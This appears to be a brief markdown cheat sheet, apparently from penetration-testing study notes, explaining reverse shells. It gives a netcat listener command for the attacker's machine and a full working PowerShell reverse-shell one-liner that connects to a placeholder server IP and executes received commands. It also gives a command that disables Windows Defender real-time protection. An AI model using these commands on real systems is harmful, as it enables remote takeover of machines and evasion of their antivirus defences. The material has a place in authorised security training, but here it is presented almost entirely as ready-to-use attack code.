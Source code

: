 ----
With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.

#### Server (`attack box`)

```bash
sudo nc -lvnp 443
```

#### Client (target)

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<server-ip>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

The `Windows Defender antivirus` (`AV`) software can stop the execution of the code.

#### Disable AV

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
